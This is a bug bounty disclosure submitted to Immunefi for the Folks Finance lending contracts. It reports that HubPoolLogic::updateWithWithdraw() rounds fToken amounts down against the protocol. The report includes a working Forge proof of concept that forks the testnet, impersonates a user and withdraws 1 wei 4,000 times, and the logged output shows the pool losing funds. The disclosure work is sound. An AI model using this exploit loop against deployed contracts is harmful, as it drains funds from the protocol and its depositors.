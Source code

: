 
# Function HubPoolLogic::updateWithWithdraw() doesn't round up in favour of protocol if isFAmount == false

Submitted on Thu Aug 01 2024 20:25:45 GMT-0400 (Atlantic Standard Time) by @Paludo0x for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33923

Report type: Smart Contract

Report severity: Low

Target: https://testnet.snowtrace.io/address/0x96e957bF63B5361C5A2F45C97C46B8090f2745C2

Impacts:
- Protocol insolvency

## Description
## Brief/Intro
Function `HubPoolLogic::updateWithWithdraw()` doesn't round up in favour of protocol if `isFAmount` == false.
This implies that users will receive more underlying tokens than they should due to rounding errors.

## Vulnerability Details
Function `HubPoolLogic::updateWithWithdraw()` is called by `LoanManager::executeWithdraw()` to calculate underlying and fAmount to be withdrawn.

This is the function snippet
```
    function updateWithWithdraw(
        HubPoolState.PoolData storage pool,
        uint256 amount,
        bool isFAmount
    ) external returns (DataTypes.WithdrawPoolParams memory withdrawPoolParams) {
        // can withdraw even if pool is depreciated
        // update interest indexes before the interest rates change
        pool.updateInterestIndexes();

        if (isFAmount) {
            withdrawPoolParams.fAmount = amount;
            withdrawPoolParams.underlingAmount = amount.toUnderlingAmount(pool.depositData.interestIndex);
        } else {
            withdrawPoolParams.underlingAmount = amount;
            withdrawPoolParams.fAmount = amount.toFAmount(pool.depositData.interestIndex);
        }

        pool.depositData.totalAmount -= withdrawPoolParams.underlingAmount;
        pool.updateInterestRates();
    }
```
In case `isFAmount` == false the `fAmount` is calculated as follows:

```
   function toFAmount(uint256 underlyingAmount, uint256 depositInterestIndexAtT) internal pure returns (uint256) {
        return underlyingAmount.mulDiv(ONE_18_DP, depositInterestIndexAtT);
    }
```

Since `depositInterestIndexAtT` is always grater than `ONE_18_DP` the fAmount will be rounded down.

That means `pool.depositData.totalAmount -= withdrawPoolParams.underlingAmount;` will be decreased by the amount required by the user while `loan.collaterals[poolId].balance -= fAmount;` will be decreased by a smaller amount.


## Impact Details

This bug can be exploited by a malicious user by withdrawing 1 wei in a `for` loop, or even in the long run by all users which carry out multiple withdrawals of deposited funds.
        
## Proof of concept
## POC
The following POC shall be run in Forge. 
The aim is to check the user and pool balances after withdrawal of 1 wei.

This test forks mainnet, and starts from a withdrawal onchain transaction.
This is the transaction https://testnet.snowtrace.io/tx/0xbc7c3f5d5447d7a40c741f92a8e789c8ad588b618d699cffea29e091955e81a4?chainid=43113

The POC shall be run with the following command:
`forge test --match-test test_withdraw_1_wei --fork-url https://api.avax-test.network/ext/bc/C/rpc --fork-block-number 35147412 -vv --via-ir --optimizer-runs 10000`

```

// SPDX-License-Identifier: BUSL-1.1
pragma solidity >=0.5.0 <0.9.0;

import "..//lib/openzeppelin-contracts/lib/forge-std/src/Test.sol";
import {SpokeCommon} from "../contracts/spoke/SpokeCommon.sol";
import {HubPoolLogic} from "../contracts/hub/logic/HubPoolLogic.sol";
import "../contracts/hub/LoanManager.sol";
import {BridgeRouterHub} from "../contracts/bridge/BridgeRouterHub.sol";
import "../contracts/hub/HubNonBridgedTokenPool.sol";


contract WithdrawTest is Test {

  SpokeCommon immutable avaxSpokeCommon = SpokeCommon(0x6628cE08b54e9C8358bE94f716D93AdDcca45b00);
  BridgeRouterHub immutable bridgeRouterHub = BridgeRouterHub(0xa9491a1f4f058832e5742b76eE3f1F1fD7bb6837);
  LoanManager immutable avaxLoanManager = LoanManager(0x2cAa1315bd676FbecABFC3195000c642f503f1C9);
  HubNonBridgedTokenPool immutable avaxHubNonBridgedTokenPool = HubNonBridgedTokenPool(0xd90B7614551E799Cdef87463143eCe2efd4054f9);
  address immutable userAddress = 0xD24DbB11D2869D27bd09Bcf7326a3108B78F42bf; 

  function setUp() public { 
    vm.label(address(avaxSpokeCommon), "avaxSpokeCommon");
    vm.label(address(bridgeRouterHub), "bridgeRouterHub");
    vm.label(address(userAddress), "userAddress");
    vm.label(address(avaxHubNonBridgedTokenPool), "avaxHubNonBridgedTokenPool");
  }

  //forge test --match-test test_withdraw_1_wei --fork-url https://api.avax-test.network/ext/bc/C/rpc --fork-block-number 35147412 -vvvvv
  //Copied transaction https://testnet.snowtrace.io/tx/0xbc7c3f5d5447d7a40c741f92a8e789c8ad588b618d699cffea29e091955e81a4?chainid=43113
  function test_withdraw_1_wei() external  {
    bytes32 accountId = 0x3c9db9e514e887a1c99a8f1d7ab7bbf734a7ab5fb55398d5632ad6d24e71c7f8;
    bytes32 loanId = 0x1079207bbaa94b74d8501bae5559ebb1660dff434fa330f590265652e13466df;

    //we set user balance to 0
    deal(userAddress,0);
    console2.log("User Initial Balance", userAddress.balance);
  

        (
        //bytes32 accountId,
       , //uint16 loanTypeId,
       , //uint8[] memory colPools,
       , //uint8[] memory borPools,
       , LoanManagerState.UserLoanCollateral[] memory loanCollateral,
        ///UserLoanBorrow[] memory
    ) =  avaxLoanManager.getUserLoan(loanId);
    console2.log("User initial fAmount balance %e", loanCollateral[0].balance);

    HubPoolState.DepositData memory poolDepositTemp = avaxHubNonBridgedTokenPool.getDepositData();
    console2.log("Pool initial deposit total amount %e", poolDepositTemp.totalAmount);

    Messages.MessageParams memory params = Messages.MessageParams({
        adapterId: 0x0000000000000000000000000000000000000000000000000000000000000001,
        returnAdapterId: 0x0000000000000000000000000000000000000000000000000000000000000001, 
        receiverValue: 0x0000000000000000000000000000000000000000000000000000000000000000,
        gasLimit: 0x0000000000000000000000000000000000000000000000000000000000000000,
        returnGasLimit: 0x0000000000000000000000000000000000000000000000000000000000000000
    });

    vm.startPrank(userAddress);
    //we iterate the withdrawal of 1 wei
    for(uint256 i ; i<4e3; i++)
      avaxSpokeCommon.withdraw( 
          params,
          accountId, //account ID
          loanId, // loanId
          129, //poolId
          1, // chainId,
          1, // amount,
          false // isFAmount
      );

    console2.log("User final Balance", userAddress.balance);

    (  , , , , loanCollateral,  ) =  avaxLoanManager.getUserLoan(loanId);
    console2.log("User final fAmount balance %e", loanCollateral[0].balance);

    poolDepositTemp = avaxHubNonBridgedTokenPool.getDepositData();
    console2.log("Pool final deposit total amount %e", poolDepositTemp.totalAmount);

  }
}

```

This is the console output. 
The amount of underlying token received back by user increases, the pool amount decreases, while the user fToken amount doesn't change.

```

[PASS] test_withdraw_1_wei() (gas: 845444793)
Logs:
  User Initial Balance 0
  User initial fAmount balance 9.9948666910183675e16
  Pool initial deposit total amount 2.029690866072611417037e21
  User final Balance 4000
  User final fAmount balance 9.9948666910183675e16
  Pool final deposit total amount 2.029690866072611413037e21

```



